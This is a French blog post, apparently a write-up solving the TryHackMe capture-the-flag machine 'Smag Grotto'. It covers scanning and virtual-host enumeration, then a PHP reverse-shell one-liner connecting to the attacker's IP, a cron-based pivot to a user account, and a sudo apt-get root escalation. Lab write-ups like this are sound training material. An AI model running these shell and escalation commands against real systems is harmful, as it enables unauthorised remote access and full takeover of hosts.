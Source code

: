 ```yaml
---
title: Smag Grotto
slug: smag-grotto
date: 2022-04-19T20:00:00+02:00
image: https://azlinux.fr/uploads/9bb0d72deccee46be9ea72cbdf51f956.webp
categories:
    - TryHackMe
    - Capture the flag
--- 
```


Voici la solution pour la machine Smag Grotto sur TryHackMe. Tout d'abord, nous allons lancer un scan pour voir quels ports sont ouverts sur la machine.

```bash
nmpa -A 10.10.150.39
```

Il y a deux ports ouverts, dont le serveur web qui nous intéresse et voici la page d'accueil :

![](https://azlinux.fr/uploads/2a459b3460d74ed70d4351f929ae947b.webp)

Comme nous ne trouvons rien de pertinent sur la page d'accueil, nous utilisons Nikto pour essayer de trouver une page cachée et ainsi nous trouvons un répertoire /mail et voici le contenu de la page :

```bash
nikto -h http://10.10.150.39
```

![](https://azlinux.fr/uploads/32fa1b468c377e46afa0f1addbd230d1.webp)

Nous arrivons sur une page contenant une liste d'emails où le premier email nous fournit un fichier contenant une trace réseau et avec Wireshark nous trouvons un nom d'utilisateur et un mot de passe

![](https://azlinux.fr/uploads/c15333a8e644c6d588a205882bea0818.webp)

Pour pouvoir se connecter à cette page d'administration, nous devons modifier le fichier hosts avec l'adresse IP pointant vers le nom de domaine development.smag.thm trouvé avec cette commande :

```bash
gobuster vhost -u http://10.10.150.39 -w /usr/share/worldlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

![](https://azlinux.fr/uploads/fd5c4289be54992f0d031b06280f33f2.webp) ![](https://azlinux.fr/uploads/5822c98a64b962d68f727e31e4f29616.webp)

Ainsi, après s'être connecté, nous avons accès à une interface pour exécuter des commandes sur la machine. Nous commençons par exécuter Pwncat puis nous recherchons un Reverse Shell sur [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) afin que la cible se connecte à notre machine pour obtenir un shell.

```bash
pwncat-cs -lp 1234
```

```bash
php -r '$sock=fsockopen("10.8.74.196",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](https://azlinux.fr/uploads/036cf2a4a1171e42f47156c78a8a6477.webp)

Ensuite, nous découvrons qu'une commande est exécutée toutes les minutes. Nous pouvons donc l'exploiter et nous connecter en tant que l'utilisateur jake.

```bash
ssh-keygen -o
```

```bash
ssh -i /home/baptiste/id_rsa jake@10.10.150.39
```

Lorsque nous avons récupéré le flag user nous voyons que le binaire apt-get est exploitable donc nous trouvons sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) la commande pour devenir super utilisateur.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

![](https://azlinux.fr/uploads/06a506918534221a33053234c97a46c2.webp)
